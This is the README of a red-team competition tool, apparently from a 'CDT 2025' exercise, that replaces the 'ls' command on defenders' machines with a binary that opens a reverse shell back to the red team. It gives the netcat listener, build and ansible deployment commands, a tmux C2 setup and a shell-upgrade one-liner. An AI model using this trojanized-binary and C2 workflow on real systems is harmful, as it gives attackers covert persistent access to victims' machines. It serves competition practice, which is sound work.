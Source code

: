 # CDT 2025 Red Team tool
## Bad ls
Red team tool that will give the entire 10.0.20.0/24 red team subnet a reverse shell if the red team box is listening on the correct port

Reverse shells will be initiated on every blue team execution of the "ls" command

The port number the reverse shell will connect to will be
```py
(10000,20000,30000 depending on blue team number + last octet of target ip address)
```
So, for example, we want to connect to 10.0.3.5, the port number will be `30005`

## Starting listener
Port number is subject to change
```bash
nc -nvlp 30005
```

## Building and deploying

Note: build executable on debian bookworm instance

Install libpython3.11
```bash
apt install libpython3.11
```

In the venv, install requirements
```bash
pip install -r requirements.txt
```

Build python script into linux binary
```bash
./convert_to_linux_binary.sh
```

Configure `ansible/inventory.ini` to match target(s), then deploy
```bash
ansible-playbook deploy_tools.yml
```

## Command and Control (C2)
To open a port on every recievable port for this competition, execute
```bash
python3 c2.py
```
To open a session, use 
```bash
tmux attach -t c2_t1_10002
```
Where t1 = team number (1,2,3) and 10002 represents the port. To detach from tmux session, use
```
CTRL + B, D
```

In the instance where all tmux sessions need to be killed, run
```bash
tmux kill-server
```

## Upgrading reverse shell to fully interactive tty
Execute this after recieving a netcat connection
Useful for being able to use sudo, etc. 
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

# Project structure
- `ansible/` all ansible deployment scripts, inventory, and configuration
- `dist/` where pyinstaller builds the linux binary
- `bad_ls.py` source code for bad_ls binary
- `c2.py` python c2 server that works through spawning numerous tmux sessions with netcat listeners
- `convert_to_linux_binary.sh` build script for `bad_ls.py`
- `move_to_debian.sh` script used to manually transfer binaries to target during development
- `requirements.txt` python dependencies for `bad_ls.py`

> Author: Daniel Wolosiuk

Oct 17, 2025

